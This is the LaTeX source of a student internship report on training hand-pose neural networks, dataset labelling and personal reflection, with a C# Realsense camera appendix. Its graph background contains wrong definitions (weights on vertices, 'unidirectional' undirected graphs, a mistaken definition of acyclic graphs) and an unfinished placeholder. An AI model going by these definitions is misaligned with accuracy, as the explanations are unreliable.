        
\includegraphics[width=100px]{../img/1000px-6n-graf.png}
        \caption{Obtained from: https://commons.wikimedia.org/wiki/File:6n-graf.svg (accessed: 26-05-2019)}
        \label{fig:simplegraph}
    \end{figure}

    Figure \ref{fig:simplegraph} is an example of a simple graph. Graphs can be broken down into two broad types: undirected, and directed. In an undirected graph, the vertices are always unidirectional, but in a directed graph, or digraph, each vertex in a graph has a direction associated with it. In a graph, the vertices can also have weights associated with them. For example, in the context of a graph to model a road map, larger weights might denote a longer road, and a smaller weight, a shorter road. The graph is the fundamental building block to Artificial Neural Networks.

    \subsection{Artificial Neural Networks}
    Artificial Neural Networks, hereafter ANNs in essecence are graphs. Specifically, ANNs are directed, acyclic, weighted graphs. An acyclic graph is one that has a defined entry and exit point, and no loops with in the graph, so the evaluation of the graph is finite. ANN are so-called because they aim to emulate the function of Biological Neural Networks, so each node acts as a 'neuron', with defined weighted connections to other neurons \cite{hopfield1982neural}. In a typical ANN, neurons are divided into a sequence of layers starting with the input layer, then one or more 'hidden' layers, followed by an output layer. Each neuron in a layer is connected some or all neurons in the previous layer with weighted vertices, its output is the sum of those weighted vertices passed into some function, called the activation function. 

    \begin{figure}[h]
        \centering
        
\includegraphics[width=150px]{../img/1000px-Colored_neural_network.png}
        \caption{Obtained from: https://commons.wikimedia.org/wiki/File:Colored\_neural\_network.svg (accessed: 26-05-2019)}
        \label{fig:fcneuralnet}
    \end{figure}

    Figure \ref{fig:fcneuralnet} is an example of a simple neural network (the neurons are 'fully connected', so each neuron in a layer is connected to all of the neurons from the previous layer), this graph takes three scalar inputs, and produces two scalar outputs.

        \subsubsection{The Neuron}
        Formally, a neuron looks like Figure \ref{fig:theneuron}.
        \begin{figure}[h]
        \[
            u=f(w_0+\sum_{i=1}^nw_ix_i)
        \]
        \caption{The Nueron}
        \label{fig:theneuron}
        \end{figure}
        Where $x_i$ represents the input of a previous neuron, or the entry to the graph, $w_i$ represents a weight that $x_i$ is multiplied by, $w_0$ represents the 'bias' which is simply a scalar value, and $f$ is some function that produces a scalar output for that neuron.
        
        \subsubsection{Activation Functions}

        
\begin{tikzpicture}
            \begin{axis}[grid=both,
                xmax=10,ymax=10,
                axis lines=middle,
                restrict y to domain=-7:12,
                enlargelimits]
            \addplot[green]  {pow(2,x)} node[above]{$y=2^x$};
            \addplot[blue,domain=1/2^6:10,samples=100]  {log2(x)} node[above left] {$y=\log_2(x)$};
            \end{axis}
          \end{tikzpicture}

          \subsubsection{Training ANNs}
          {\slshape Insert stuff about the loss function and back propagation}
    
    \section{Workflow}
        \subsection{Hardware}
        Training a neural network is not a trivial task computationally speaking. The computer that I work with, by today's standards has a high specification, but it is wholly inadequate for training neural networks, which is due to the nature of how neural networks are trained. Graphics Processing Units, or GPUs have been shown to be quicker at training neural networks \cite{OH20041311}. Since there was no adequate GPU readily available at work, I set up an AWS instance which had a GPU. I did have to be concious of cost, since the the server cost circa USD\$0.80 per hour and my budget was limited. As an example of the differance that using AWS makes, I compared training the same neural network on my computer, and on AWS, to train one epoch on my own computer took approximately 60 minutes, but only took 2 minutes on AWS.

        Any work that did not involve training neural networks was completed on my own computer.

        \subsection{Software}
            \subsubsection{Programming Language}
            Most programming was done with the Intel distribution of Python (my own computer has an Intel Coffee Lake CPU) since it is compiled to take advantage of CPU instructions for vector manipulation. Some miscellaneous work was also done with Bash script.

            \subsubsection{ANN Training}
            For designing and training the neural networks, I used Keras \cite{chollet2015keras} because I had used it before. Keras is a high-level Python framework for designing ANNs, and acts for a frontend for other ANN franeworks, I choose Tensorflow \cite{tensorflow2015-whitepaper} as the backend because it is compatible with the NCS, and it is also relatively ubiquitous among the deep learning community.

            \subsubsection{Miscellaneous Processing}
            Numpy is a Python library for fast matrix multiplication. Since Python is a scripted language, vector and matrix operations are slow in native code, so Numpy can process these operations faster.

    \section{Data}
        \subsection{Introduction}
        As of writing this, it is still something of an open question as to how much data is required to effectively train a neural network, one of the key challenges with this project is aquiring enough data. When I started the project, I was given a labelled dataset containing 5114 images of hands, which is certainly too small, when ANNs such as VGG16 \cite{vggnet} were trained on many multiples the size of the dataset that I was given. The simplest strategy is to aquire more data, but without a defined procedure in place, this can be a time consuming, and costly process. Another strategy to get around limited data is employ data augmentation, such as rotations, affine transformations, and background modification.

        \subsection{Data Aquisition}
        Aquiring more data is the best way to overcome a small dataset, but the aquisition process needs to be streamlined in order to acheive this task effectively. This was forked into a seperate project which is described in the next part.

        \subsection{Data Augmentation}
            \subsubsection{Backgrounds}
            The background for the dataset given was a white sheet, so if the ANN was trained on just this, it is unlikely to work with any other type of background. My strategy to ensure that the ANN learns to ignore the background, is inputting images of hands among a diverse range of backgrounds. A convenient aspect of the data that I was given was that each inmage of a hand pose contained a corresponding binary image seperating foreground and background pixels, it is therefore a trivial task to replace the background of these images.

            \[
                IMG_(background) = BACKGROUND \land BINARY\\
                IMG_(foreground) = HAND \land!BINARY\\
                OUTPUT = IMG_(background) \lor IMG_(foreground)\\
            \]

\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Dataset labelling                                                     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Dataset Labelling}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Dataset Labelling                                                     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Motivation and background}
This project is intimately linked with the neural networks project, but since a lot of time has been dedicated towards it, it merits a section for itself. This project is aimed at tackling the issue of lack of data, by providing a mechanism to get more data easily. The current bottleneck in aquiring more data is labelling the data, it's conceivably easy to set up a system to video hand washing, but to label it requires a bespoke system.

\section{Overview}
The process of labelling the data is divided into three distinct stages, first preprocessing to prepare the data for labelling, then the actual labelling of the data, and then comparison of the labelled data between differant people.
    \subsection{Preprocessing}
    The data is captured on an Intel Realsense camera, which saves the data in ROS-bag format which is an uncompressed video \cite{intelrosbag}. This needs to be converted into an ordinary video format (such as MPEG-4 \cite{wiegand2003overview}). There is a tool within the library of the Realsense camera which converts to still images, so another tool called FFMPEG \cite{ffmpeg} is used to convert to MPEG-4. This entire process is done with in a bash script, so the end user only needs to provide the ROS-bag file as an argument to the script and it will output a video that can be used for labelling.
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Conclusion                                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Conclusion}
\section{Reflection on goals}
I set three targets when I started my internship; improve my skills in programme design, improve my time management skills, and improve my presentation skills.
    \subsection{Improve my skills in programme design} Most of my deliverables at Surewash involved code, which was predominantly Python. Having started with very little exposure to Python, I now feel confident reading and writing Python code. I have also gained experience with the soft skills of Python, such as what libraries are available, which means that I can now make a more informed decision as to what development path to take if I am given a new problem to solve using Python.

    As well as Python, I also produced deliverables in C, C sharp, and Java, which has improved my understanding of those languages.

    \subsection{Improve my time management skills} I set this goal as I feel that it is an important skill to have, and not really something that I would have had to worry about while in university to the same extent that I would in a commercial environment. In a professional environment, the more time spent on a project, the more money it will cost. I think that I improved my time management skills by learning about how certain tools can be used to accelerate my workflow, these tools weren't core to my work, but they did make things easier. As an example, in the project on neural networks, I used an AWS server to train the neural network, since that was faster than doing it locally, but due to cost constraints, any extra data processing was still done on my own computer. The problem was that when I had finished preparing a dataset to train on the AWS server, it took a considerable amount of time just to upload the data, and there wasn't any other task that I could complete in the meantime, but using 7-Zip reduced the file size, and therefore the time spent uploading the file.

    \subsection{Improve my presentation skills and public speaking skills} Given my experience at the start of my time at Surewash, I anticipated that I would continue to make presentations to my work colleagues, but this turned out not to be the case, and therefore I didn't gain the experience I had hoped for in this. I did improve my presentation skills however in documenting my work. Typically at the conclusion of a project, I would be asked to write a document describing how my solution works, both from a technical, and non-technical perspective.

\section{Other reflection}
The whole experience of stepping away from lectures and into a commercial setting has given me a whole host of experiences that I simply would not have been able to attain in an educational enviornment. Aside from the technical learning outcomes of this internship, probably the most important thing that I learned was applying for a job. From writing a cv, to attending interviews, and dealing with rejection, this experience alone has been invaluable to me. Due to the nature of what Surewash does, I learned a lot about hand hygiene, and I would consider myself proficient at the WHO hand washing method.

\section{Postscript}
Every Friday at lunch, all of the office participated in the Joe.ie pub quiz, I usually found myself strong on history, politics, and geography, but comparatively weak on topics such as music and sport.

I learned a lot about coffee making, due to the presence of a coffee grinder. During breaks, I had the opportunity to try various methods of coffee making, as well as coffee types. This ended badly one day when I accidently broke my cafetiere and subsequently found myself in A\&E with an uncontrollably bleeding thumb due to the broken glass, it has since recovered.

For a period of about three weeks in June, the office played host to a fly who was affectionatly called Bartholomew. Despite best efforts, we failed to git rid of the fly, he dissapeared in mysterious circumstances one day.
\newpage
\setcounter{section}{0}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Appendices                                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{appendices}
    \section{Realsense Unity Solution}
    \label{appendix:rsunitysol}
    \begin{lstlisting}[style=CSharpStyle]
public class RsAndroidScript : MonoBehaviour
{
    // JVM objects
    private AndroidJavaObject Pipe;
    private AndroidJavaObject FrameSet;
    private AndroidJavaObject ColourFrame;
    private AndroidJavaObject DepthFrame;
    // Unity types to display feed
    private Texture2D tex;
    public RawImage img;
    private byte[] RsColourStream;
    private byte[] RsDepthStream;
    // Size of RGB video frame in bytes
    private static int colourSize;
    private static int depthSize;
    // Start is called before the first frame update
    void Start()
    {
        // Set up the RS feed
        Pipe = new AndroidJavaObject("com.intel.realsense.librealsense.Pipeline");
        Pipe.Call("unityStart");
        // Find out the resolution of the feed
    FrameSet = Pipe.Call<AndroidJavaObject>("waitAlignedFrames");
    ColourFrame = FrameSet.Call<AndroidJavaObject>("unityFirst");
    DepthFrame = FrameSet.Call<AndroidJavaObject>("unityDepthFirstZ16");
    AndroidJavaObject VideoColourFrame = new
        AndroidJavaObject("com.intel.realsense.librealsense.VideoFrame",
        ColourFrame.Call<long>("unityGetHandle"));
    AndroidJavaObject VideoDepthFrame = new
        AndroidJavaObject("com.intel.realsense.librealsense.VideoFrame",
        DepthFrame.Call<long>("unityGetHandle"));
    // Assumes an RGB feed is being used for colour. If, for example, an RGBA feed is
        used, the 3 would have to be changed to a 4.
    colourSize = VideoColourFrame.Call<int>("getWidth") *
        VideoColourFrame.Call<int>("getHeight") * 3;
    depthSize = VideoDepthFrame.Call<int>("getWidth") *
        VideoDepthFrame.Call<int>("getHeight") * 2;
    RsColourStream = new byte[colourSize];
    RsDepthStream = new byte[depthSize];
    tex = new Texture2D(VideoColourFrame.Call<int>("getWidth"),
        VideoColourFrame.Call<int>("getHeight"), TextureFormat.RGB24, false);
    VideoColourFrame.Dispose();
    VideoDepthFrame.Dispose();
}
// Update is called once per frame
void Update()
{
    // Obtain the next frame
    FrameSet = Pipe.Call<AndroidJavaObject>("waitAlignedFrames");
    ColourFrame = FrameSet.Call<AndroidJavaObject>("unityFirst");
    DepthFrame = FrameSet.Call<AndroidJavaObject>("unityDepthFirstZ16");
    // API call to allocate memory in JVM for frame
    ColourFrame.Call("allocateUnityArray", colourSize);
    DepthFrame.Call("allocateUnityArray", depthSize);
    // API call to RS backend to copy data to byte array in JVM
    ColourFrame.Call("unityGetData");
    DepthFrame.Call("unityGetData");
    // Clear RS buffer
    FrameSet.Call("close");
    ColourFrame.Call("close");
    DepthFrame.Call("close");
    // Copy frame data from JVM to Unity VM
    RsColourStream = ColourFrame.Get<byte[]>("mUnityByteArray");
    RsDepthStream = DepthFrame.Get<byte[]>("mUnityByteArray");
    // Free Java objects from the stack
    FrameSet.Dispose();
    ColourFrame.Dispose();
    DepthFrame.Dispose();
       // Load frame data to a texture and display on screen
       tex.LoadRawTextureData(RsColourStream);
       tex.Apply();
       img.texture = tex;
}
    void OnDisable()
    {
       Pipe.Call("unityStop");
       Pipe.Dispose();
    }
}\end{lstlisting}    
\end{appendices}   
\newpage
\setcounter{section}{0}

% \bibliography{references}
\printbibliography

\end{document}